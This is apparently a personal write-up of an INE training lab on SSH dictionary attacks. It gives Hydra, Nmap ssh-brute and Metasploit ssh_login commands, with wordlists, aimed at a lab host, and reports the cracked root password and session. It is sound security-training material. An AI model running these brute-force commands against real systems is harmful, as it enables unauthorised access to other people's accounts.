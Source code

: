 ```yaml
---
description: >-
  In this lab, you will learn to run a dictionary attack on SSH service using
  Hydra, Nmap script, and Metasploit.
---
```


# Lab - Bruteforce and Password cracking Live

## Lab Environment

In this lab environment, the user is going to get access to a Kali GUI instance. An SSH server can be accessed using the tools installed on Kali on http://demo.ine.local

**Objective:** Perform the following activities:

**1.** Find the password of user "student" using Hydra. Use password dictionary: /usr/share/wordlists/rockyou.txt.gz

**2.** Find the password of user "administrator" use appropriate Nmap script. Use password dictionary: /usr/share/nmap/nselib/data/passwords.lst

**3.** Find the password of user "root" using the ssh\_login Metasploit module. Use userpass dictionary: /usr/share/wordlists/metasploit/root\_userpass.txt

## Tools

The best tools for this lab are:

* Metasploit Framework
* Hydra
* Nmap

## My Solution

### Hydra

The rockyou.txt is originally compressed via gzip so you have to first decompress it with:

```
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

The command I ran to find the password for student was:

```
hydra -l student -P /usr/share/wordlists/rockyou.txt demo.ine.local ssh -f
```

![](<../../../../.gitbook/assets/image (29) (1) (1) (1) (1).png>)

Here's confirmation that it works

![](<../../../../.gitbook/assets/image (24) (1) (1) (1).png>)

[This](https://linuxconfig.org/ssh-password-testing-with-hydra-on-kali-linux) can help with using Hydra for ssh

### Nmap

We use the ssh-brute Nmap [script](https://nmap.org/nsedoc/scripts/ssh-brute.html) to find the password for user "administrator"

The script takes username and password list files so we have to create a file for the username

I ran the following to do this: `echo "administrator" > users.lst`

Here's the nmap command:

```
nmap -p22 --script=ssh-brute --script-args userdb=users.lst,passdb=/usr/share/nmap/nselib/data/passwords.lst demo.ine.local
```

Now we verify the credentials

![](<../../../../.gitbook/assets/image (17) (1).png>)

### Metasploit

This [article](https://www.offensive-security.com/metasploit-unleashed/scanner-ssh-auxiliary-modules/) by Offensive Security is very straight forward and easy to follow

Launch Metasploit using `msfconsole`

Then type: `use auxiliary/scanner/ssh/ssh_login`

View options with "show options" and set the ones we need as such:

![](<../../../../.gitbook/assets/image (19) (1) (1) (1).png>)

Now type run and enter

![](<../../../../.gitbook/assets/image (18) (1) (1).png>)

As you can see, the password for root is attack and we're given a session that we can interact with using `sessions -i <id number>` and verify that we are indeed root
